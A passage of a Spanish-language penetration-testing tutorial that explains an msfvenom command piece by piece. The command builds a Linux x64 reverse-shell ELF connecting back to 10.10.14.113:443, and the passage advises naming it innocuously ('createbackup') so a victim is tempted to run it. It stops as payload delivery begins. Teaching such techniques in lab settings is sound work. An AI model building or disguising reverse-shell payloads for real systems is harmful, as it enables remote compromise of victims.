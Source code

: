 ```bash
msfvenom
```

Define la herramienta utilizada para crear el **payload**.

### **2. Creación de un Payload**

```bash
-p
```

Esta opción indica que **msfvenom** está creando un **payload**.

### **3. Selección del Payload basándose en la Arquitectura**

```bash
linux/x64/shell_reverse_tcp
```

Especifica un **payload stageless** de 64 bits para Linux que iniciará una **shell inversa** basada en TCP (**shell\_reverse\_tcp**).

### **4. Dirección IP para Conectar de Vuelta**

```bash
LHOST=10.10.14.113 LPORT=443
```

Cuando se ejecute el **payload**, se conectará de vuelta a la dirección IP especificada (**10.10.14.113**) en el puerto (**443**).

### **5. Formato para Generar el Payload**

```bash
-f elf
```

La opción **-f** especifica el formato del archivo binario generado. En este caso, será un archivo **.elf** (formato utilizado en sistemas Linux).

### **6. Salida**

```bash
> createbackup.elf
```

Genera el binario **.elf** y lo nombra como **createbackup**. Podemos asignarle cualquier nombre. Idealmente, elegiríamos algo que no sea sospechoso o que pueda tentar a alguien a descargarlo y ejecutarlo.

## Ejecución de un Payload Stageless

En este punto, ya hemos creado el **payload** en nuestra máquina de ataque. Ahora necesitamos desarrollar una forma de transferir ese **payload** al sistema objetivo. Existen innumerables formas de hacer esto. A continuación, se mencionan algunos de los métodos más comunes:
